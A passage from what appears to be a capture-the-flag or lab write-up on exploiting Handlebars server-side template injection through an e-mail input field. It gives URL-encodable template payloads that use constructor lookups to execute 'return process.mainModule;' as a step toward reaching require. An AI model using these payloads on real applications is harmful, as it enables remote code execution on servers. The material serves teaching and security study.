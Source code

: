 ```js
      {{/with}}
      {{/each}}
     {{/with}}
    {{/with}}
   {{/with}}
{{/with}}
```

- We will take this code and encode it in url type and add it in `E-mail input` then see what will get in the response.
  
  ![can't display an image](images/reapeter_out2.png)

  - As you can see we got this message , this mean that we successfully determine the right object.

- Now after doing a quick search we will find that `process`it has a `mainModule` property that has been deprecated since version 14.0.0 of Node.js.
- So we will try to add it .
- I Know you maybe losted here , but all we do is try to expect what is the existing path to the`requir object`.
- We will edit the code and it will as following.

```js
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
     {{#with string.split as |codelist|}}
      {{this.pop}}
      {{this.push "return process.mainModule;"}}
      {{this.pop}}
      {{#each conslist}}
        {{#with (string.sub.apply 0 codelist)}}
          {{this}}
        {{/with}}
       {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```
